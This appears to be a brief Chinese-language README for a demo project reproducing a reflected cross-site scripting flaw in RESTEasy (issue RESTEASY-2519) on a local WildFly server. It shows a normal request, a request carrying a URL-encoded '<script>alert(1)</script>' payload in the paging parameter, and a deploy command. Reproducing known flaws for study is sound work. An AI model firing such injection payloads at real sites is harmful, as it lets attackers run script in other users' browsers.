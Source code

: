 相关issue：

> https://issues.redhat.com/browse/RESTEASY-2519

正常访问：

```bash
$ http "localhost:8080/resteasy-xss-wildfly/rest/users?paging=1"
```

访问有问题的服务：

```bash
$ http "http://localhost:8080/resteasy-xss-wildfly/rest/users?paging=0%2c-1sp137%3Cscript%3Ealert(1)%3C%2fscript%3Emzx4u"
```

部署：

```bash
[standalone@localhost:9990 /] deploy resteasy-xss-wildfly/target/resteasy-xss-wildfly.war --force
```

